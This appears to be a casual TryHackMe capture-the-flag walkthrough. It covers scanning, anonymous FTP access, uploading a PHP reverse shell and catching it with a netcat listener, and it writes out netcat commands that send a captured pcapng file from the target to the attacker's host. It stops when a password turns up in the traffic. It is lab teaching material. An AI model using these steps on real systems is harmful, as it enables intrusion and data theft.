 ok so my old readme got deleted so this is gonna be a little bit of a lazy readme LETS GO

1.) We have been asked by the tompany to perform a penetration test on their system so let's go and nmap scan wahoooo

![image](https://github.com/JordanPenaloza/TryHackMe/assets/113396128/bf83bffc-d432-42bb-9135-3a8d4defbc4f)

   - We found http, ssh, and ftp open with an anonymous ftp login allowed so let's check that out
   - We can login to ftp as anonymous and retrieve all the files found by doing the following below
   - ![image](https://github.com/JordanPenaloza/TryHackMe/assets/113396128/c6696ef3-ffa5-4b10-b28d-3138ac1aa1be)
   - After opening the notice.txt file we foound we found a username Maya
     
2.) Lets find hidden directories of the http server using gobuster

![image](https://github.com/JordanPenaloza/TryHackMe/assets/113396128/03d350c0-7c11-4896-ab42-2aef613e3765)

  - We found the /files directory, let's check it out
  - 
![image](https://github.com/JordanPenaloza/TryHackMe/assets/113396128/90a7fff2-f131-4ade-9fb8-55386ad6fa11)

   - This looks just like the ftp folder we found earlier, cause it is!
   - This means we might be able to upload a file to the directory via ftp, which could lead to a reverseshell vulnerability
     
![image](https://github.com/JordanPenaloza/TryHackMe/assets/113396128/24fa843b-baa7-42aa-8235-d316506e8fec)

   - Sweet, we can upload files, let's reverseshell
   - after we run put shell.php we can now run a netcat listener to create a connection
3.) Lets reverse shell

![image](https://github.com/JordanPenaloza/TryHackMe/assets/113396128/7b6aca87-ea5a-4438-bbd4-0e8007ca0279)

   - We opened a netcat listening and got a connection by clicking on the shell.php file!

![image](https://github.com/JordanPenaloza/TryHackMe/assets/113396128/03f2ae19-dde7-41bb-9d83-dd480a2e9ddf)

   - Listing the files showed us the answer to the first questions!

4.) Lets ls and see what we can find

![image](https://github.com/JordanPenaloza/TryHackMe/assets/113396128/d39aa3af-da3c-476a-82e2-5cbc808f66ad)

   - We found a suspicious file which can be opened in wireshark
   - To transfer the file I created another netcat listening instance pointed to the file I wanted by typing nc -l -p (port) > suspicious.pcapng
   - I then ran nc (host ip) (port) < suspicious.pcapng to transfer the file
5.) Let's open it in wireshark now

![image](https://github.com/JordanPenaloza/TryHackMe/assets/113396128/7631697f-fecc-428e-b27a-16a6fd59bec1)

   - We see a lot of traffic, let's open one of these packets and sniff through the traffic to see what we can find

![image](https://github.com/JordanPenaloza/TryHackMe/assets/113396128/65fd8229-4247-41e8-80e4-3d562d4ef524)

   - Looks like lennie was trying to privelage escalate and we also found the password 






